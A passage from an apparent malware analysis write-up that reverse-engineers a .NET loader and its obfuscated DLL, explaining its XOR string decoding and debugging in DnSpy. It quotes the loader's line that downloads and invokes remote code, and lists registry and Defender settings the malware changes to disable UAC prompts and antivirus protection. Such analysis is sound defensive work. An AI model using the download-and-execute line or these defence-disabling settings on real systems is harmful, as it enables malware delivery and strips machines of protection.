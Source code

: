  On to the DLL. Once the loader downloads the file, it invokes a specific method using the following line:
 ```C#
 Assembly.Load(new WebClient().DownloadData(Cnfggs.modUrl)).GetTypes().FirstOrDefault((Type x) => x.Name == "Init").GetMethod("Load").Invoke(null, null);
 ```
 
 The DLL is also written in .NET, so I'm able to analyze it in DnSpy. The .NET assembly is mildly obfuscated, using single letters in place of class/method/variable names. 
 Starting with the invocation of `Init.Load()`, I can see it calls `a.a()`, which in turn calls several other method from various classes.
 
 {{< figure src="images/a_method_dll.png" alt="a_method" position="center" >}}
 
 The first method called is `d.a()` and it looks intimidating, but is actually rather simple.   
 
  {{< figure src="images/d_a_method.png" alt="d_a_method" position="center" >}}
 
 All the method does is create integer variables, perform calculations on those variables, and pass them to a method, `<Module>.c()`.  Note: `<Module>` and `global` can be used interchangeably.  
 
More detail on `<Module>.c()` -- using the first two integer arguments, it grabs a set of bytes from offsets of the manifest resource named "resource". In .NET, a manifest resource is a file embedded in the assembly at compile time. Next, the method performs an XOR using the third argument, and returns the result as a string. These strings are then used as argument to `d.b()`, which XORs the strings with each other and returns a deobfuscated, plaintext string.


The `d.a()` function simply repeats this process over and over.
 
For example, on line 26 `<Module>.c()` is called twice, returning `0:[3(2&S""/$?*]Gy{}b$>""'MA4373\PF` and `GS5WGEU7GIAQN85CTR6LLGF92QGCZ275`, respectively.  

These strings are passed to `d.b()` and the variable `b` of the current class (`d`) is set to the result, `windowsdefender://Threatsettings`.  

This pattern continues until the end of the method, where no value is returned. So, `d.a()` is used to decode the strings used by the rest of the methods -- if I can set a breakpoint on the function return I can see them all in cleartext.  

Since I am dealing with a DLL, I can't just debug it on its own in DnSpy. In order to help me debug it, I created an x86 release binary with Visual Studio which will load the malicious DLL and call the `Init.Load()` method. I added the wrapper executable into DnSpy and set a breakpoint on the DLL method call. If I debug the executable and step into the DLL call, DnSpy will load it, and allow me to step through line by line.  

After entering the DLL, I set another breakpoint right after the `d.a()` method returns, hit "continue", and boom, we can see all the strings created by the method in cleartext. 

{{< figure src="images/dll_string_dump.png" alt="dll_string_dump" position="center" >}}

These strings are used in the remaining methods, which I will summarize for brevity. 

- `h.c(`): Sets the registry key `HKEY_LOCAL_MACHINE\\Software\\Microsoft\\Windows\\CurrentVersion\\Policies\\System\ConsentPromptBehaviorAdmin` to 0. A value of 0 allows administrators to perform operations that require elevation without consent (meaning prompts) or credentials.
- `h.d()`: Add `C:\` to the Defender exclusion path.
- `b.a(`): Purpose seems to be to open Windows Defender Virus & Threat Protection settings window, programmatically grab UI elements using the AutomationElement class, iterate through the elements, toggle the options off on the security page, and then hide the window. After testing it through with the debugger, it does not seem successful.
- `h.a()`: Changing more security settings using either WMI or Win32 API calls. See below.
```HTML
HKEY_LOCAL_MACHINE\\SOFTWARE\\Policies\\Microsoft\\Windows DefenderDisableAntiSpyware : 1
HKEY_LOCAL_MACHINE\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Explorer\\StartupApproved\\Run\SecurityHealth : 3
HKEY_LOCAL_MACHINE\\SYSTEM\\CurrentControlSet\\Services\\WinDefend\Start : 3
HKEY_LOCAL_MACHINE\\SOFTWARE\\Microsoft\\Windows Defender\\Real-Time Protection\DisableRealtimeMonitoring : 1
EnableControlledFolderAccess : Disabled
PUAProtection : disable
```